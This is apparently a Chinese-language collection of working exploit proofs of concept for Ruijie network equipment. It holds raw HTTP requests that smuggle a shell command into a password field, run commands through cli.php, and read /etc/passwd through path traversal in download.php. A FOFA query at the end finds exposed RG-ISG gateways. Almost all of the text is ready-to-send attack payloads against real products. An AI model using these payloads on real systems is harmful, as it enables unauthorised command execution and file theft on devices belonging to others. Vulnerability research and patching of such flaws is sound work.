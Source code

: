 ##### branch_passw.php 远程命令执行 ✅

发送请求包：

```
POST /itbox_pi/branch_passw.php?a=set HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 41
Content-Type: application/x-www-form-urlencoded
Cookie: RUIJIEID=52222egp72ilkpf2de7qbrigk3;user=admin;
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip

pass=|cat /etc/psswd>../test_test.txt
```

再访问：

```
http://your-ip/test_test.txt
```

##### cli.php 远程命令执行 ✅

发送请求包：

```
POST /cli.php?a=shell HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 24
Content-Type: application/x-www-form-urlencoded
Cookie: RUIJIEID=nk5erth9i0pvcco3n7fbpa9bi0;user=admin; 
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip

notdelay=true&command=id
```

##### download.php 任意文件读取 ✅

poc：

```
/download.php?a=read_txt&file=../../../../etc/passwd
```

#### 锐捷 ISG 视频接入安全网关

##### 账号密码泄露漏洞 ✅

FOFA：

```
title="RG-ISG"
```
